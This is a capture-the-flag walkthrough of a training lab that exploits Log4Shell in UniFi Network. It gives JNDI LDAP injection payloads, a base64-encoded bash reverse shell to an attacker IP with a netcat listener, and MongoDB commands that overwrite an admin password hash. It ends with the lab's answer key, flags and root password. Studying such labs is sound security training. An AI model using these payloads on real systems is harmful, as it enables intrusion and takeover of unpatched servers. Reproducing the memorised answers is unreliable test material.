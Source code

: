 # Unified - Very Easy

```shell
nmap -T4 -p- -A 10.129.249.213

sudo tcpdump -i tun0 port 389
#this shows vulnerable app sending connection

#install open-jdk and maven
sudo apt install openjdk-11-jdk

sudo apt install maven

git clone https://github.com/veracode-research/rogue-jndi

cd rogue-jndi

mvn package
#creates .jar file

#for payload
echo 'bash -c bash -i >&/dev/tcp/10.10.15.7/4444 0>&1' | base64
#use base64 encoded string for next command

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuNy80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.10.15.7"

#in new tab, setup listener
nc -lvnp 4444

#after getting reverse shell
#upgrade shell
script /dev/null -c bash

ps aux
#show running processes

ps aux | grep mongo
#shows port

mongo --port 27117 ace --eval "db.admin.find();"
#this shows cluttered output, we can slightly modify it using json

mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"

mkpasswd -m sha-512 Password123
#this creates custom hash which we can use to replace the previously found hash

mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$aF/g8yVDhs72PoC6$m0tNn6si1eaMC.mpSRdEc6DHG0ZRpPN6c1we4QwbJ7bvOeOPk1NSZdWNB3.p1ajPRkZ0rtbS1lErxijzI00kv0"}})'
#the hash has to be replaced
#this updates the website password

ssh root@10.129.249.213
#connect and get root flag
```

```markdown
From the nmap scan, key ports and services are 22 (ssh), 6789 (ibm-db2-admin), 8080 (http-proxy), 8443 (ssl - Nagios NSCA), 8880 (cddbp-alt).

On checking the website hosted at <http://10.129.249.213:8080>, we get the software 'Unifi Network'.

Searching for 'Unifi Network 6.4.54 exploit' gives us CVE-2021-44228.

Following the exploit details, LDAP is the protocol exploited, and its port is 389.

Using the exploit information given on <https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi>, we can carry out the exploit to gain access to the machine.

Using Burp Suite and Foxy Proxy, we insert our payload into the 'remember' field by capturing login request.
Payload - "${jndi:ldap://10.10.15.7/string}"

Send the modified request after starting tcpdump to monitor LDAP connections on its port.

For exploit to be successful, we need open-jdk and maven, and the required GitHub repo.

After the .jar file is created, we need to pass our payload to it.

After creating payload and starting listener, we need to send one more payload in our intercepted request in the 'remember' field.
Payload - "${jndi:ldap://10.10.15.7:1389/o=tomcat}"

After sending the modified request, we get a reverse shell.

The user flag can be found in /home/michael.

Now we can see MongoDB is one of the running processes.

For the default DB name for UniFi apps, Google searching shows the name 'ace'; we can use it in our queries accordingly.

We can connect with the MongoDB service; for the flags, we need to Google keywords such as 'find in MongoDB' and 'enumerate users in Mongo'.

By using db.admin.find(), in the first few lines of the output, we can view the Administrator user and their password hash.

Instead of cracking the password hash, we can use db.admin.update() to update the hash with a password of our own; we can create custom hash using utilities such as mkpasswd.

After replacing the hash, we can login to the Unifi Network website using the creds administrator:Password123

This leads us to the Unifi Network dashboard; we can go to Settings > Device Authentication.

This section includes option for enabled SSH authentication, along with the creds root:NotACrackablePassword4U2022

We can use these creds to login via SSH and get the root flag.
```

1. Which are the first four open ports? - 22,6789,8080,8443

2. What is title of the software that is running on port 8443? - Unifi Network

3. What is the version of the software that is running? - 6.4.54

4. What is the CVE for the identified vulnerability? - CVE-2021-44228

5. What protocol does JNDI leverage in the injection? - LDAP

6. What tool do we use to intercept the traffic, indicating the attack was successful? - tcpdump

7. What port do we need to inspect intercepted traffic for? - 389

8. What port is the MongoDB service runnning on? - 27117

9. What is the default database name for UniFi applications? - ace

10. What is the function we use to enumerate users within the database in MongoDB? - db.admin.find()

11. What is the function we use to update users within the database in MongoDB? - db.admin.update()

12. What is the password for the root user? - NotACrackablePassword4U2022

13. Submit user flag - 6ced1a6a89e666c0620cdb10262ba127

14. Submit root flag - e50bc93c75b634e4b272d2f771c33681
